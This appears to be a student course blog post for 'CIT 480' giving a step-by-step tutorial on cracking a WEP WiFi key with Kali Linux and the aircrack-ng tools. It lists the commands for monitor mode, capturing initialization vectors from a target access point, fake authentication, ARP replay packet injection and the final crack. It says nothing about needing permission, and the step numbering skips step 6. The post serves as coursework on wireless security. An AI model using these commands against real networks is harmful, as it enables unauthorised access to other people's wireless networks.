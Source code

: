 ```yaml
---
layout: post
title: "Blog 9"
description: "CIT 480 blog 9"
categories: [uncategorized]
tags: [random, jekyll]
redirect_from:
  - /2019/11/2/
---
```


# How to hack WEP Key?

__Hardware/Software Requirements__

* ALFA Network AWUS036AC WiFi Adapter.
* Kali Linux.

__Step 1: Install WiFi Adapter Driver on Kali Linux__

Driver on Alfa Network’s Website will probably not work on Kali Linux. So perform steps below.

* apt-get update
* apt-get upgrade
* apt-get install realtek-rtl88xxau-dkms

__Step 2: Set WiFi Adapter to Monitor Mode__

To check if adapter is present

* iwconfig

To put WiFi Adapter in monitor mode.

* airmon-ng start wlan0

If processes are present then kill the processes.

* airmon-ng check kill

Run Again

* airmon-ng start wlan0

Confirm WiFi Adapter is in Monitor Mode

* iwconfig

__Step 3: Scan Network__

Find your target

* Airodump-ng wlan0

Copy BSSID of Target AP

Remember channel number

__Step 4: Start a IV Capture on Target AP__

* Open New Terminal
* airodump-ng -c <channel-number> --bssid <AP BSSID> -w <file_name> -i wlan0
	* -c to specify AP’s broadcasting channel
	* --bssid to specify MAC of Target AP
	* -w to specify where to save your initialization vectors
	* -i to save initialization vectors only and discard all other data

__Step 5: Fake Authentication__

WiFi Adapter needs to be associated with AP to be able to inject packets later. 

* Open New Terminal
* aireplay-ng -1 0 -e <SSID of Target AP> -a <BSSID of Target AP> wlan0
	* -1 means fake authentication
	* 0 means reassociation timing in seconds
	* -e to specify name of the network
	* -a is the access point MAC address

__Step 7: Packet Injection__

* Open New Terminal
* aireplay-ng -3 -b <AP MAC> wlan0
	* -3 ARP request replay
	* -b to specify AP MAC

__Step 8: Crack WEP Key__

Collect enough IVs and crack the WEP Key.

* Open New Terminal
* aircrack-ng <file_name.cap>


























